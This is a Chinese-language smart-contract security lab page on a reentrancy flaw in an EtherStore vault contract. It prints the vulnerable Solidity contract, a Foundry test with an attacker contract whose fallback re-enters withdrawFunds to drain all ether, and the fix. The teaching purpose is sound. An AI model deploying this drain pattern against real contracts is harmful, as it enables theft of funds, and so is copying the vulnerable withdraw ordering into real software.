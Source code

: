 # 可重入性
[Reentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Reentrancy.sol)  

**名称：** 可重入性漏洞  

**描述：**  
在EtherStore智能合约设计中有一个可重入性漏洞的缺陷，这会允许攻击者利用重入性漏洞从EtherStore合约中提取超过其应提取的资金。  
该漏洞源于EtherStore合约中的withdrawFunds函数，该函数在更新余额之前，将以太币转账到攻击者的地址。  
这使得攻击者的合约能够在余额更新之前重新调用withdrawFunds函数，从而导致多次提取资金并有可能耗尽EtherStore合约中的所有以太币。  

**场景：**  
EtherStore合约是一个简单的金库，它可以管理每个人的以太币。  
但是它存在漏洞，你能窃取所有的以太币吗？  


**解决方法：**  
遵守“检查-效果-交互”的原则和使用OpenZepplin的重入保护。  


**参考：**  
https://slowmist.medium.com/introduction-to-smart-contract-vulnerabilities-reentrancy-attack-2893ec8390a  

https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/  


**EtherStore合约：**  
```solidity
contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        (bool send, ) = msg.sender.call{value: _weiToWithdraw}("");
        require(send, "send failed");

        // 取款后，检查是否还有有足够的余额，以避免下溢情况。
        //check if after send still enough to avoid underflow
        if (balances[msg.sender] >= _weiToWithdraw) {
            balances[msg.sender] -= _weiToWithdraw;
        }
    }
}
```

**如何测试：**  

`forge test --contracts src/test/Reentrancy.sol -vvvv`  
```solidity
// 用于测试EtherStore合约是否存在重入攻击漏洞的函数 
function testReentrancy() public {
    // 执行攻击合约的Attack函数
    attack.Attack();
}

// 攻击EtherStore合约的合约
contract EtherStoreAttack is Test {
    // 待攻击的EtherStore合约实例
    EtherStore store;

    // 初始化EtherStore合约
    constructor(address _store) {
        store = EtherStore(_store);
    }

    // 执行攻击的函数
    function Attack() public {
        // 记录EtherStore合约的余额
        console.log("EtherStore balance", address(store).balance);

        // 向EtherStore合约存入1个以太币
        store.deposit{value: 1 ether}();

        // 记录EtherStore合约新余额
        console.log(
            "Deposited 1 Ether, EtherStore balance",
            address(store).balance
        );
        //从EtherStore合约取走1个以太币, 这就是可以攻击的地方
        store.withdrawFunds(1 ether); 

        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        //记录EtherStore合约取款后的余额
        console.log("EtherStore balance", address(store).balance);
    }

    // 利用可重入漏洞的回退函数
    receive() external payable {
        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        // 记录EtherStore合约的余额
        console.log("EtherStore balance", address(store).balance);
        // 判断EtherStore合约余额是否至少有1个以太币
        if (address(store).balance >= 1 ether) {
            // 取走1个以太币，这就是在回退函数中利用到的漏洞
            store.withdrawFunds(1 ether); 
        }
    }
}
```
**红色框：**  攻击成功，取完了EtherStore合约中的以太币。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6c7fb809-e4be-407c-a133-64416461a86e%2FUntitled.png?table=block&id=cc44df8e-6a18-44b2-b9e9-892b3b29be79&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

